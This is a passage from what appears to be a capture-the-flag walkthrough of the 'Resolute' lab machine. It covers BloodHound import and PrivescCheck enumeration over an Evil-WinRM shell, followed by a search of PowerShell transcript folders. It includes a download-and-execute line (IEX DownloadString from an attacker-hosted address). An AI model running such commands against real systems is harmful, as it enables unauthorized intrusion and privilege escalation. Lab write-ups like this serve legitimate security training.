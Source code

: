 Now, you can import the generated file (*20220207140125_bloodhound.zip*) in BloodHound by running `sudo neo4j start`, then execute BloodHound in another terminal with the `bloodhound` command.

## Recon with PrivescCheck

Before going further with our BloodHound results, let’s see if we can elevate our local privileges and get a local administrator access. Using [PrivescCheck](https://github.com/itm4n/PrivescCheck), a script that aims to enumerate common Windows configuration issues, let's try to enumerate common Windows configuration issues that can be leveraged for local privilege escalation.

Note that we used the local **Apache** service to host the file and download it from the remote machine. The `-Extended` flag aims to gather more information.

```bash
*Evil-WinRM* PS C:\Users\melanie\Desktop> IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.xx/PrivescCheck.ps1'); Invoke-PrivescCheck -Extended

...[snip]...

+------+------------------------------------------------+------+
| TEST | HARDENING > PowerShell Transcription           | INFO |
+------+------------------------------------------------+------+
| DESC | Check whether PowerShell Transcription is configured  |
|      | and enabled. If so, the path of the output log file   |
|      | will be returned.                                     |
+------+-------------------------------------------------------+
[*] Found 1 result(s).


EnableTranscripting    : 0
EnableInvocationHeader : 0
OutputDirectory        : C:\PSTranscipts

...[snip]...

```

We may have some interesting information in the **PSTranscipts** folder, let's take a look at this directory.

```bash
*Evil-WinRM* PS C:\> cd C:\PSTranscripts
*Evil-WinRM* PS C:\PSTranscripts> dir -force


    Directory: C:\PSTranscripts


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d--h--        12/3/2019   6:45 AM                20191203


*Evil-WinRM* PS C:\PSTranscripts> cd 20191203
*Evil-WinRM* PS C:\PSTranscripts\20191203> dir -force


    Directory: C:\PSTranscripts\20191203


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-arh--        12/3/2019   6:45 AM           3732 PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
```
